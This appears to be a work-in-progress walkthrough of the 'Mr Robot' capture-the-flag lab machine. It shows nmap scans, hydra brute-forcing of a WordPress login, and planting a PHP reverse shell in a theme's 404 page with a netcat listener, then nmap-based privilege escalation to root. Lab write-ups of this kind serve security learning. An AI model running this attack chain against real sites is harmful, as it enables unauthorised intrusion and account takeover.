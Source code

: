 # Mr Robot


WORK IN PROGRESS


### Find Own Host

		inet 192.168.30.131  netmask 255.255.255.0  broadcast 192.168.30.255

### Find machine

		nmap 192.168.30.0/24

>Nmap scan report for 192.168.30.130
Host is up (0.00050s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

### Adding to hosts for convenience

		echo 192.168.30.130 mrrobot >> /etc/hosts

### Enumerate website

		nmap -A --script=http-enum mrrobot

>PORT    STATE  SERVICE VERSION
22/tcp  closed ssh
80/tcp  open   http    Apache httpd
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2 
|   /feed/: Wordpress version: 4.3.17
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
|_http-server-header: Apache
443/tcp open   ssl/ssl Apache httpd (SSL-only mode)
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2 
|   /feed/: Wordpress version: 4.3.17
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
|_http-server-header: Apache
MAC Address: 00:0C:29:8B:05:80 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11
Network Distance: 1 hop


### Robots.txt

		curl mrrobot/robots.txt

>User-agent: *
fsocity.dic
key-1-of-3.txt

### Create desktop folder to store my shit, and download the first key and dic file

		cd ~/Desktop
		mkdir mrrobot
		wget mrrobot/fsocity.dic
		wget mrrobot/key-1-of-3.txt
		cat key-1-of-3.txt

>073403c8a58a1f80d943455fb30724b9

### The dictionary file

See how long the file is

		wc fsocity.dic
		
		or
		
		wc -l fsocity.dic

>858160 fsocity.dic

Holy shit. Remove uniques

		cat fsocity.dic | sort | uniq > filtered.txt
		wc -l filtered.txt

>11451 filtered.txt

Much better.

### WP Login

Browse to:

		mrrobot/wp-login.php

We have a form! Take note of the value naming. 'log' and 'pwd'

View source:

		<form name="loginform" id="loginform" action="http://mrrobot/wp-login.php" method="post">
	<p>
		<label for="user_login">Username<br/>
		<input type="text" name="log" id="user_login" class="input" value="" size="20"/></label>
	</p>
	<p>
		<label for="user_pass">Password<br/>
		<input type="password" name="pwd" id="user_pass" class="input" value="" size="20"/></label>
	</p>
		<p class="forgetmenot"><label for="rememberme"><input name="rememberme" type="checkbox" id="rememberme" value="forever"/> Remember Me</label></p>
	<p class="submit">
		<input type="submit" name="wp-submit" id="wp-submit" class="button button-primary button-large" value="Log In"/>
		<input type="hidden" name="redirect_to" value="http://mrrobot/wp-admin/"/>
		<input type="hidden" name="testcookie" value="1"/>
	</p>
</form>


Try logging in

		user: admin
		pass: admin

>ERROR: Invalid Username

What about mrrobot's show character(s)?(yeah this part is not fully useable irl but hey)

		user: elliot
		pass: elliot

>ERROR: The password you entered for the username elliot is incorrect.

So username is elliot. bruteforce the form with hydra



		hydra mrrobot http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^:Error" -l elliot -P filtered.txt

>[80][http-post-form] host: mrrobot   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found


### Upload Reverse shell script

Check themes, what is currently active?

    Appearance > Themes
    
Edit a 404.php page

    Appearance > editor > (select a non active theme. here I use twentysixteen) > 404 template(404.php)
    
Copy and paste Pentestmonkey PHP Reverse Shell script. (Don't forget to set the local port and ip! Here I use port 7777)
    
    (Modify this stuff)
    $ip = '192.168.30.131'; //CHANGE THIS
    $port = '7777'; //CHANGE THIS




### Set up a listener

		nc -lvp 7777

### Access the page to get reverse shell running (can also just access in browser)

		
		curl mrrobot/wp-content/themes/twentyfourteen/404.php


Find SUID bits

		find / -perm -u=s -type f 2>/dev/null


there's nmap!

		nmap --interactive
		!bash -p
		whoami



why nmap? google for "gtfobins". if you have suid or sudo permissions, that webside will tell you if you can use it to priv esc
